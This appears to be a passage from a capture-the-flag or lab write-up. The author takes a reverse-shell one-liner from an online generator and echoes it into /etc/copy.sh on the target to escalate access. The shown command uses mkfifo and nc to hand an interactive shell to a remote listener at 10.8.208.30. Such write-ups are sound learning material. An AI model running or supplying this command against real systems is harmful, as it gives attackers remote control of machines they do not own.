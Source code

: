 ![alt text](images/revshells-com-generator.png "Reverse shell generator")

So after grabbing that magic trick of [www.revshells.com](https://www.revshells.com), need to add that into this `/etc/copy.sh` file. `nano` Does Not Work (tm), due the type of shell we currently have. `vi` unknown on the system. So strange, an `emacs` user I guess. Or does this lazy admin not use any command line text editor to edit his config files? Anyway, `echo'ing` this then to the script file.

```commandline
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.8.208.30 9999 >/tmp/f" > /etc/copy.sh
```
